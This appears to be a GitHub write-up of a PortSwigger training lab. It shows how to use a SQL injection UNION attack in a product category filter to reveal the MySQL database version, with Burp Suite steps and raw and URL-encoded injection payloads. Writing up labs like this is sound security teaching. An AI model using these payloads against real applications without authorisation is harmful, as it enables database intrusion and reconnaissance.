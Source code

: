 # SQL injection attack, querying the database type and version on MySQL and Microsoft

## This lab contains a [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.

To solve the lab, display the database version string.

#mysql_database
___
To get MySQL database version
```sql
SELECT @@version
' UNION SELECT @@version --
```

step 1

select any category then go to
burpsuite => proxy => http history => click on =>`/filter?category=pets` => send to repeater

![screnshot](./images/lab8_category_pets.png)

step 2

`' UNION SELECT @@version,NULL#` => URL Encoded (`'+UNION+SELECT+%40%40version,NULL%23`)
`/filter?category=Pets'+UNION+SELECT+%40%40version,NULL%23`

![screnshot](./images/lab8_mysql_version_ubuntu_version.png)


step 3

To solve the lab
add `'+UNION+SELECT+%40%40version,NULL%23` at the end of URL

![screnshot](./images/lab8_solved_lab.png)